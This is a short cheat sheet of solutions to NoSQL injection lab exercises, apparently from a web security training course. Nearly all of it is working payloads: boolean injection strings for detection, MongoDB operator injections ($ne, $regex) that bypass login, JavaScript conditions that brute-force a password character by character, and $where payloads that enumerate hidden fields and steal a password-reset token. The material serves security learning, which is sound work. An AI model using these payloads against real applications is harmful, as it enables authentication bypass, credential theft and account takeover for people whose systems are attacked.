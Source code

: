 ----
----

# NoSQL injection
most of labs contain `filter?category=..`, if the payload doesn't work try URL-encoding version
**Detecting NoSQL injection**
```noSQL
Gifts' && 0 && 'x
Gifts' && 1 && 'x
Gifts'||1||'
```
---
**Exploiting NoSQL operator injection to bypass authentication**

    login as admin
    login function : {"username":{"$ne":""},"password":{"$ne":""}}
```nosql
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```
---
**Exploiting NoSQL injection to extract**
    
    login as admin
    /user/lookup?user=..
```nosql
administrator' && this.password.length < 30 || 'a'=='b ## 8 char

administrator' && this.password[$pos$]=='$c$ 
```
brute force like sql injection pos(0-7), c(0-9a-b)

---
**Exploiting NoSQL operator injection to extract unknown fields**

    login as carlos
    Forgot password? function
    Account locked: please reset your password (when try logged in many times)
```
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[1].match('^.{§a§}§b§.*')"}

{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[2].match('^.{§a§}§b§.*')"}

{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[3].match('^.{§a§}§b§.*')"}
```
which a(0-20); b(0-9a-z)

post login
```
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"this.YOURTOKENNAME.match('^.{§a§}§b§.*')"}
```
which a(0-20); b(0-9a-z)
`GET /forgot-password?YOURTOKENNAME=TOKENVALUE`

---